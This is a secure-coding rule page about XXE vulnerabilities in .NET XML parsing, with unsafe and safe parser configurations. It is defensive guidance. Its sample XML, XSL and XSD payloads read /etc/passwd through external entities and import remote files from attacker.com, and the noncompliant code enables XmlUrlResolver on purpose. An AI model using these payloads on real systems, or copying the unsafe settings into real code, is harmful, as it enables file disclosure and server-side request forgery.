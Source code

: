 
[XML specification](https://www.w3.org/TR/xml/) allows the use of entities that can be [internal](https://www.w3.org/TR/xml/#sec-internal-ent) or [external](https://www.w3.org/TR/xml/#sec-external-ent) (file system / network access ...).

Allowing access to external entities in XML parsing could lead to vulnerabilities like confidential file disclosures or [SSRFs](https://www.owasp.org/index.php/Server_Side_Request_Forgery):

Example in XML document:


    &lt;?xml version="1.0" encoding="utf-8"?&gt;
      &lt;!DOCTYPE test [
        &lt;!ENTITY xxe SYSTEM "file:///etc/passwd"&gt;
      ]&gt;
    &lt;note xmlns="http://www.w3schools.com" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.attacking.com/deleteall"&gt;
      &lt;to&gt;&amp;xxe;&lt;/to&gt;
      &lt;from&gt;Jani&lt;/from&gt;
      &lt;heading&gt;Reminder&lt;/heading&gt;
      &lt;body&gt;Don't forget me this weekend!&lt;/body&gt;
    &lt;/note&gt;


Example in XSL document:


    &lt;?xml version="1.0" encoding="UTF-8"?&gt;
    &lt;!DOCTYPE root [
      &lt;!ENTITY content SYSTEM "file:/etc/passwd"&gt;
    ]&gt;
    &lt;xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"&gt;
      &lt;xsl:import href="http://www.attacker.com/evil.xsl"/&gt;
      &lt;xsl:include href="http://www.attacker.com/evil.xsl"/&gt;
     &lt;xsl:template match="/"&gt;
      &amp;content;
     &lt;/xsl:template&gt;
    &lt;/xsl:stylesheet&gt;


Example in XSD document:


    &lt;?xml version="1.0" encoding="UTF-8"?&gt;
    &lt;!DOCTYPE schema PUBLIC "-//W3C//DTD XMLSchema 200102//EN" "" [
       &lt;!ENTITY xxe SYSTEM "file:///etc/passwd"&gt;
      ]&gt;
    &lt;xs:schema xmlns:xs="http://www.w3.org/2001/XMLSchema"&gt;
      &lt;xs:import namespace="test" schemaLocation="http://www.attacker.com/evil.xsd"/&gt;
      &lt;xs:element name="note"&gt;
        &lt;xs:complexType&gt;
          &lt;xs:sequence&gt;
            &lt;xs:element name="to" type="xs:string"/&gt;
            &lt;xs:element name="from" type="xs:string"/&gt;
            &lt;xs:element name="heading" type="xs:string"/&gt;
            &lt;xs:element name="body" type="xs:string"/&gt;
          &lt;/xs:sequence&gt;
        &lt;/xs:complexType&gt;
      &lt;/xs:element&gt;
    &lt;/xs:schema&gt;


It is recommended to disable access to external entities.

## Noncompliant Code Examples

System.Xml.XmlDocument


    // .NET Framework &lt; 4.5.2
    XmlDocument parser = new XmlDocument(); // Noncompliant: XmlDocument is not safe by default
    parser.LoadXml("xxe.xml");
    
    or
    
    // .NET Framework 4.5.2+
    XmlDocument parser = new XmlDocument();
    parser.XmlResolver = new XmlUrlResolver(); // Noncompliant: XmlDocument.XmlResolver configured with XmlUrlResolver that makes it unsafe
    parser.LoadXml("xxe.xml");


System.Xml.XmlTextReader


    // .NET Framework &lt; 4.5.2
    XmlTextReader reader = new XmlTextReader("xxe.xml"); // Noncompliant: XmlTextReady is not safe by default
    while (reader.Read())
    { ... }
    
    or
    
    // .NET Framework 4.5.2+
    XmlTextReader reader = new XmlTextReader("xxe.xml");
    reader.XmlResolver = new XmlUrlResolver(); // Noncompliant: XmlTextRead.XmlResolver configured with XmlUrlResolver that makes it unsafe
    while (reader.Read())
    { ... }


## Compliant Solution

System.Xml.XmlDocument


    XmlDocument parser = new XmlDocument();
    parser.XmlResolver = null; // Compliant: XmlResolver has been set to null
    parser.LoadXml("xxe.xml");
    
    or
    
    XmlDocument parser = new XmlDocument(); // Compliant: XmlDocument is safe by default in  .NET Framework 4.5.2+ because XmlResolver is set by default to null
    parser.LoadXml("xxe.xml");


System.Xml.XmlTextReader


    // .NET 4.5.2+
    XmlTextReader reader = new XmlTextReader("xxe.xml"); // Compliant: XmlTextReader is safe by default in  .NET Framework 4.5.2+ because XmlResolver is set by default to null
    while (reader.Read())
    { ... }
    
    // .NET 4.0 to .NET 4.5.1
    XmlTextReader reader = new XmlTextReader("xxe.xml");
    reader.DtdProcessing = DtdProcessing.Prohibit; // Compliant: XmlTextReader is safe by default in  .NET Framework 4.5.2+ because XmlResolver is set by default to null
    
    // &lt; .NET 4.0
    XmlTextReader reader = new XmlTextReader(stream);
    reader.ProhibitDtd = true; // Compliant: default is false


## See

- [OWASP Top 10 2017 Category A4](https://www.owasp.org/index.php/Top_10-2017_A4-XML_External_Entities_%28XXE%29) - XML External Entities<br>  (XXE)
- [OWASP XXE Prevention Cheat<br>  Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html#net)
- [MITRE, CWE-611](http://cwe.mitre.org/data/definitions/611.html) - Information Exposure Through XML External Entity Reference
- [MITRE, CWE-827](http://cwe.mitre.org/data/definitions/827.html) - Improper Control of Document Type Definition

